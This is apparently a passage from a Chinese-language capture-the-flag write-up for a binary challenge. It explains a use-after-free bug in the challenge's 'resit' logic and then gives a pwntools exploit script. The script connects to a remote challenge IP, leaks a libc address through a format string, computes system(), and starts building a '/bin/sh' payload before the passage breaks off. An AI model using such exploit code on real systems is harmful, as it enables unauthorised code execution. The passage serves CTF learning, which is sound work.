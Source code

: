 差不多就上面那样。后来发现了一个 UAF 漏洞，逻辑问题出在 resit 的时候是根据 essay_len 来判断，如果 essay_len 不为空则会清空 essay_len 和 essay_addr；如果已经为空那就只是 free 掉，而不会清空 essay_addr。所以我们构造一个原本长度就为 0 的 essay，这样在 resit 的时候不会清空掉 essay_addr，这时候再用 cheat 分配一个超大的堆，就可以覆盖掉这里的 essay_addr 原本指向的地方，然后 call Func 的时候就是 call 我们构造好的函数了。

题目给了 libc，执行 `export LD_PRELOAD="./libc-2.19.so"` 可以帮助更好地分析。

```python
__author__ = "cMc_SARS"

from pwn import *

# p = process('jwc')
p = remote('128.199.232.78', 5432)
context(terminal='tmux')

libc = ELF('libc-2.19.so')
libc_write = libc.symbols['write']
libc_system = libc.symbols['system']

p.writeline('1')
p.writeline(16*'A')
p.writeline(200*'1')

# KENG!
p.writeline('2')
p.writeline('1')
p.writeline('103')
payload = '\x00' + 'A'*0x5f
payload += p64(0x6023B0)
p.write(payload)

# resit
p.writeline('5')
p.writeline('1')

# English
p.writeline('2')
p.writeline('2')
p.writeline('1')
p.writeline('1')
p.recv()

# cheat
p.writeline('1024')
p.writeline('1')
payload = "%d%d;%lx;\x00\x00\x00"
payload += "A"*4*3
payload += p64(0x4009B0)
payload = payload.ljust(103, 'A')
# p.writeline(util.cyclic.cyclic(length=103))
p.writeline(payload)

# show score
p.writeline('3')
p.recvuntil(';')
write_addr = int(p.recvuntil(';')[:-1], 16) - 0x10
print hex(write_addr)
system_addr = write_addr + libc_system - libc_write
print hex(system_addr)

# cheat
p.writeline('1024')
p.writeline('1')
payload = "/bin/sh\x00"
payload += "A"*4*4
```